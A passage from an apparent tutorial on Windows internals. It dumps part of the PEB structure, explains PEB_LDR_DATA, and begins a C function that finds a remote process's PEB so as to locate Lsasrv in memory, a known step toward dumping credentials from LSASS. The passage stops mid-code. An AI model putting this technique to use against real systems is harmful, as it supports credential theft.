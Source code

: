 ```
   +0x378 HeapTracingEnabled : Pos 0, 1 Bit
   +0x378 CritSecTracingEnabled : Pos 1, 1 Bit
   +0x378 LibLoaderTracingEnabled : Pos 2, 1 Bit
   +0x378 SpareTracingBits : Pos 3, 29 Bits
   +0x37c Padding6         : [4] UChar
   +0x380 CsrServerReadOnlySharedMemoryBase : Uint8B
   +0x388 TppWorkerpListLock : Uint8B
   +0x390 TppWorkerpList   : _LIST_ENTRY
   +0x3a0 WaitOnAddressHashTable : [128] Ptr64 Void
   +0x7a0 TelemetryCoverageHeader : Ptr64 Void
   +0x7a8 CloudFileFlags   : Uint4B
   +0x7ac CloudFileDiagFlags : Uint4B
   +0x7b0 PlaceholderCompatibilityMode : Char
   +0x7b1 PlaceholderCompatibilityModeReserved : [7] Char
   +0x7b8 LeapSecondData   : Ptr64 _LEAP_SECOND_DATA
   +0x7c0 LeapSecondFlags  : Uint4B
   +0x7c0 SixtySecondEnabled : Pos 0, 1 Bit
   +0x7c0 Reserved         : Pos 1, 31 Bits
   +0x7c4 NtGlobalFlag2    : Uint4B
```


Because this structure is stored in usermode memory, we can access this structure to retrieve crucial information about remote and local processes.  At offset +0x18 you'll see a pointer to a `PEB_LDR_DATA` structure.

```
   +0x018 Ldr              : Ptr64 _PEB_LDR_DATA
```

What is this structure?  The `PEB_LDR_DATA` structure holds a `LIST_ENTRY` struct for all of the modules loaded in the process you're examining.  So if we can loop through this list, we can search for Lsasrv and get its location in memory, hence why we need to find the PEB.

```c
typedef struct _PEB_LDR_DATA {
    ULONG Length;                          // Size of this structure
    BOOLEAN Initialized;                   // Indicates if the structure is initialized
    PVOID SsHandle;                        // Reserved
    LIST_ENTRY InLoadOrderModuleList;      // List of modules in load order
    LIST_ENTRY InMemoryOrderModuleList;    // List of modules in memory order
    LIST_ENTRY InInitializationOrderModuleList; // List of modules in initialization order
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```
## Finding the PEB

So we've established we need to find the PEB in order to find Lsasrv. How do we find the PEB?

```c
bool locatePEB(HANDLE hTarget, PVOID* pPEB) {
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	if (!hNtdll) return false;

	printf("NTDLL Handle\n");
	fnNtQueryInformationProcess pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(hNtdll, "NtQueryInformationProcess");
	
	if (!pNtQueryInformationProcess) return false;

	PROCESS_BASIC_INFORMATION pProcBasicInfo = { 0 };
	ULONG ulRetLength = 0;

	NTSTATUS status = pNtQueryInformationProcess(hTarget, ProcessBasicInformation, &pProcBasicInfo, sizeof(PROCESS_BASIC_INFORMATION), &ulRetLength);

	if (!NT_SUCCESS(status)) {
```